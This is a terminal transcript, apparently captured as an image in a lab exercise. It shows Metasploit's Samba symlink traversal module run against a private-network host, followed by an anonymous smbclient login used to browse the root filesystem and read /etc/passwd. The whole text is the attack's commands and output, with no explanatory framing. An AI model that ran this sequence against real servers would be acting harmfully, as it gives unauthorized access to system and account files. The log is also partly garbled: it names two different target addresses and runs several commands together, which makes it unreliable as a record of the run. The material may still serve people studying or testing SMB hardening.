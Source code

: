 ```bash

msf6 > use 0
msf6 auxiliary(admin/smb/samba_symlink_traversal) > show options

Module options (auxiliary/admin/smb/samba_symlink_traversal):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOSTS                      yes       The target host(s), see https://do
                                         cs.metasploit.com/docs/using-metas
                                         ploit/basics/using-metasploit.html
   RPORT      445              yes       The SMB service port (TCP)
   SMBSHARE                    yes       The name of a writeable share on t
                                         he server
   SMBTARGET  rootfs           yes       The name of the directory that sho
                                         uld point to the root filesystem


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/smb/samba_symlink_traversal) > set RHOSTS 192.168.56.109
RHOSTS => 192.168.56.109
msf6 auxiliary(admin/smb/samba_symlink_traversal) > set SMBSHARE tmpSMBSHARE => tmp
msf6 auxiliary(admin/smb/samba_symlink_traversal) > show options
Module options (auxiliary/admin/smb/samba_symlink_traversal):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOSTS     192.168.56.109   yes       The target host(s), see https://do
                                         cs.metasploit.com/docs/using-metas
                                         ploit/basics/using-metasploit.html
   RPORT      445              yes       The SMB service port (TCP)
   SMBSHARE   tmp              yes       The name of a writeable share on t
                                         he server
   SMBTARGET  rootfs           yes       The name of the directory that sho
                                         uld point to the root filesystem


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/smb/samba_symlink_traversal) > exploit[*] Running module against 192.168.56.110

[*] 192.168.56.109:445 - Connecting to the server...
[*] 192.168.56.109:445 - Trying to mount writeable share 'tmp'...
[*] 192.168.56.109:445 - Trying to link 'rootfs' to the root filesystem...
[*] 192.168.56.109:445 - Now access the following share to browse the root filesystem:
[*] 192.168.56.109:445 -      \\192.168.56.110\tmp\rootfs\

[*] Auxiliary module execution completed

┌──(kali㉿makhota-kali)-[~]
└─$ smbclient //192.168.56.110/tmp
Password for [WORKGROUP\kali]:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> cd rootfs
smb: \rootfs\> cd etc
smb: \rootfs\etc\> more passwd
getting file \rootfs\etc\passwd of size 1581 as /tmp/smbmore.QdC7Ta (771.9 KiloBytes/sec) (average 772.0 KiloBytes/sec)
smb: \rootfs\etc\> exit

```